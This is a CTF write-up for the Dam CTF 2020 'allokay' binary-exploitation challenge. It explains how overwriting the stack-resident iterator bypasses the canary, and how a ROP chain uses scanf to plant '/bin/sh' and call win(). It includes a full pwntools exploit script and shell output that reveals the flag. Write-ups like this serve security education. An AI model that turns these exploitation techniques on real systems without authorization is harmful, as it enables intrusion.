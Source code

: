 ```yaml
---
layout: post
title: Dam CTF 2020 allokay (pwn)
---
```


Running checksec on the binary, we can see that many standard exploit mitigation technologies are present: stack canaries, non-executable stack, no RUNPATH. PIE is disabled, and the debugging symbols are still present.

## Initial dynamic analysis

The program asks for the number of favorite numbers the user has. Next, the user has to put in all of his favorite numbers. One noticable thing is that the program does not handle certain numbers well, for example, when the user has 10 favorite numbers,the program stops after 6 numbers.

<img src="{{ site.baseurl }}/images/allokay1.png"/>

## Initial Static analysis

Since the symbols are still present in the binary, loading the program into IDA gave us a clear overview of the execution flow and names of the functions. In a function called "get_input", the program gathers all of the user's favorite numbers. There is a stack cookie present in the function, so simply feeding a lot of data to overwrite the instruction pointer would be impossible.

## The "6 number" problem

As seen in the initial dynamic analysis, the program exits if more than 6 numbers are put into the program. This is because the value for the number of programs and the iterator are both stored on the stack, but the user's favorite numbers are stored on the stack too. Since the program does not dynamically create enough space on the stack depending on the amount of favorite numbers the user has, the numbers will overwrite both the iterator and the maximum amount of numbers. Since it overwrites the max numbers first, and since the number put in is very small, the numbers_max variable will be set to 0, and the loop condition is false. The loop will break, and the program will exit.

One interesting property of the "get_input" function is that the iterator determines where on the stack the input is being written.

<img src="{{ site.baseurl }}/images/allokay2.png"/>

Since we control the iterator, we control where the program writes the data put in by the user, and since we control the numbers_max variable, we control how many writes it will perform before leaving the loop. This way, we can bypass the stack cookie and overwrite the saved return address with the address of "win()". It is important to note that the user has to put in the attacker data in the form of integers, since the scanf() function that gets the data uses the format string "%ld". For example, if we want to call win(), we would need to get the address in hexadecimal and convert it to decimal.

## /bin/sh

Unfortunately, the win() function requires an argument: the path for execve() to execute. The argument needs to be stored in rdi, so we first need to build a ropchain that puts "/bin/sh" into rdi. The binary itself does not contain that string, and simply popping the /bin/sh string from libc would not work either, since the remote server has ASLR enabled. Therefore, the ropchain needs to make a call to some function that gets input from the user and stores it somewhere the attacker intended.

The first function I considered was fgets(), since we could easily put in the literal string "/bin/sh" into stdin, and store it wherever we want. Unfortunately, there is no rop gadget that controls the rdx register, which is the third argument for the fgets() function. Instead, scanf() can be used to write the arbitrary data. One thing to note is that there is no "%s" format string in the binary, so we have to reuse the "%ld" string. This means that we need to put in the "/bin/sh" string in an integer format by converting the string to decimal with the ASCII table. For the write location of the "/bin/sh" string, I choose the .bss segment.

We now have enough information to build an exploit script and carry out an attack.

```
#!/bin/python3

from pwn import *

numbers_max_overwrite = b'85899345931'
iterator_overwrite = b'42949672971'
poprdi = b'4196659'
ld = b'4196717'
poprsi_popr15 = b'4196657'
binsh_location = b'6295680'
scanf = b'4195936'
win = b'4196199'
binsh = b'29400045130965551'

r = remote('chals.damctf.xyz', 32575)

r.recvuntil(b'How many favorite numbers do you have?\n')
r.sendline(b'10')

for x in range(5):
    r.recvuntil(b': ')
    r.sendline(b'2')

r.recvuntil(b': ')
r.sendline(numbers_max_overwrite)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(iterator_overwrite)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(ld)
r.recvuntil(b': ')
r.sendline(poprsi_popr15)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(scanf)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(win)
r.sendline(binsh)

r.interactive()
```

Script output:
```console
[+] Opening connection to chals.damctf.xyz on port 32575: Done
[*] Switching to interactive mode
$ ls
allokay
flag
$ cat flag
dam{4Re_u_A11_0cK4y}
```
